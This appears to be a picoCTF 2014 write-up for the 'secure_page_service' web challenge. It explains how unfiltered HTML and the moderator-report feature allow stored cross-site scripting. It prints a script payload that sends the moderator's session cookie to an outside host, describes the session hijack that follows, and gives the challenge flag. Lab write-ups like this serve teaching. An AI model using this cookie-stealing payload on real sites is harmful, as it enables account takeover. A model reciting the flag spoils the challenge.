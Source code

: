 ## secure_page_service - 100 (Web Exploitation)
####Writeup by Oksisane

Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:02:51


Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:02:46


Created: 2014-11-08 00:54:47

Last modified: 2014-11-09 23:01:37


### Problem

The bad guys have hidden their access codes on an [anonymous secure page service](http://sps.picoctf.com/). Our intelligence tells us that the codes was posted on a page with id `43440b22864b30a0098f034eaf940730ca211a55`, but unfortunately it's protected by a password, and only site moderators can view the post without the password. Can you help us recover the codes?

### Hint

What happens if you put HTML into a page?

## Answer


### Overview

Exploiting XSS vulnerabilities to get Admin user's session cookie.

### Details
Cross-site scripting (commonly referred to as XSS) is a type of web exploit which involves an attacker being able to inject client side scripting into pages viewable by other users. First register an account and log in. Then make a simple page such as ```<h1>Hi</hi>``` which produces <h1>Hi</h1>. From this it is clear that secure_page_service is not filtering any html we put into a page and instead is interpreting it as normal, an XSS vulnerability! But how can we exploit this? The key here is the Report to Moderator button. We can setup a page that records the moderator's session cookie and then lure them to the page by reporting it. Once we have their session cookie we can preform a [session hijacking](http://en.wikipedia.org/wiki/Session_hijacking) attack (replace our session with that of the moderators), so that secure_page_service will think we are the moderator and override the password check when we browse to page `43440b22864b30a0098f034eaf940730ca211a55`.
So now we know what to do once we have the moderator cookie, but how do we get it?

We can form a page such as
```html
<script>
location.href=("http://ehsandev.com/pico.php?c="+document.cookie)
</script>
```
When a user browses to this page they are redirected to a page on a server (in this case ehsandev.com) with their cookies in the url. The attacker can then simply view the log of the request made to the servers and copy out the session id. In this example, when we hit the report button the moderator would be redirected to `http://ehsandev.com/pico.php?c=PHPSESSID=02b8t6vqgvfigv4at2ovp3e0g6` where `02b8t6vqgvfigv4at2ovp3e0g6` is the session cookie we are looking for and would appear in the logs of this site. Finally, we have to manually set the admin cookie to our `PHPSESSID` cookie using a Chrome extension such as [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) or a Firefox extension such as [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/). Then, we view the page `43440b22864b30a0098f034eaf940730ca211a55` and we get our flag!

### Flag
    wow_cross_site_scripting_is_such_web

